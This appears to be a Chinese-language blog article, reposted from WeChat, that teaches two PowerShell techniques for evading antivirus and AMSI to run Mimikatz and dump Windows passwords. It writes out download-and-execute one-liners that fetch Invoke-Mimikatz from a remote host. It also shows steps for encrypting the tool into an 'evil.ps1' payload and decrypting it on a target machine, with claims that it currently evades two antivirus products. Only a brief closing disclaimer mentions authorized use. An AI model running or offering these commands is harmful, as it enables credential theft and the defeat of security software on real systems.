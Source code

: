 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/oVWg7WF3609ny8423ROZEw)

  

前言

：

  

今天给大家分享两个利用 powershell 来 bypass 杀软抓密码技巧，亲测目前不杀。  
注：本号首发在了土司 https://www.t00ls.net/thread-62167-1-1.html

  

一.

利用 powershell v2 绕过 amsi 抓 windows 密码（前提是 win10 机器需要. net3.0 以上）

当我们实用原始的 powershell 执行经典的抓密码发现，是被 amsi 阻止的  

```
powershell -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.52.134:6688/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucm2fz9Dt8IkgAzlcBgFjunxIyGbLzzPmVpfkjgx8QoFH0iaZqUKH6xNQ/640?wx_fmt=png)  

此时我们利用降维攻击，强制使用 PowerShell v2 绕过 amsi，因为版本 2 没有支持 AMSI 的必要内部挂钩  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicuc6JA92fgTfUVehibibAEyiaN4UNSxvxDY2wWSrv6FW9EjeKUC3uRNVWzLA/640?wx_fmt=png)  

可以看到成功绕过了 amsi 的检测执行成功 mimikatz 抓到了密码！

二.

使用 Out-EncryptedScript 加密免杀抓取密码（亲测目前可绕过某绒和某 60）

Out-EncryptedScript 是 Powersploit 中提供工具的一种，他是用来进行加密处理的脚本，首先我们将 Out-EncryptedScript.ps1 与 Invoke-Mimikatz.ps1 放到同一目录下  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucmLWnOiaW853lMdbEWKibaLNibV45SFzcMLX1l6JF5n4s8Mp87IaPDF6fA/640?wx_fmt=png)

依次执行如下命令  

```
powershell.exe
Import-Module .\Out-EncryptedScript.ps1
Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password tubai -Salt 123456
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucXYHX0A6jfp7hRAHu9MM5pGiabnrk5l1Jboeld99l725dppfLdndBwIg/640?wx_fmt=png)  

目录下便会自动生成 evil.ps1 文件，上传到目标机器即可  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucmLWnOiaW853lMdbEWKibaLNibV45SFzcMLX1l6JF5n4s8Mp87IaPDF6fA/640?wx_fmt=png)  

在目标机器依次执行如下命令  

```
powershell.exe
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")  注：由于https://raw.githubusercontent.com/不稳地，我本人是放在自己的阿里云上的。
[String] $cmd = Get-Content .\evil.ps1
Invoke-Expression $cmd
$decrypted = de tubai 123456
Invoke-Expression $decrypted
Invoke-Mimikatz
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucf7gneOqDoOE0emTpAPxPl6BxDmXdWjLo4hwA8USWdrq05WDv8y7HsA/640?wx_fmt=png)  

如下，便成功绕过了杀软，成功的抓到了密码  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucgkbOUL2PknzyILoykZ4ZB66AiaQLRqpgu5hOd0SDHSYm85Ec28ZGiaMg/640?wx_fmt=png)  

三

总结：

绕过 AV 的方式层出不穷，powershell 在内网渗透方面利用的方式非常多，远远不止免杀与信息收集，希望大家能在授权的情况下，玩转自己的绕过思路，都能总结出自己的一些 bypass 小技巧！  

声明: 文章初衷仅为攻防研究学习交流之用，严禁利用相关技术去从事一切未经合法授权的入侵攻击破坏活动，因此所产生的一切不良后果与本文作者及该公众号无关

若各位师傅有更多姿势，或想与我一起交流学习，可加我 VX：  

‍‍‍![](https://mmbiz.qpic.cn/mmbiz_jpg/ibHceSKEmlFhwRS0ibiafzkgm53C5uJvicucs5HmyMjhCXBxOpWDWCxC7v5Hj5hu00iaKLSGPmswBRKqm75Mz5XZiaiaw/640?wx_fmt=jpeg)  

分享收藏点赞在看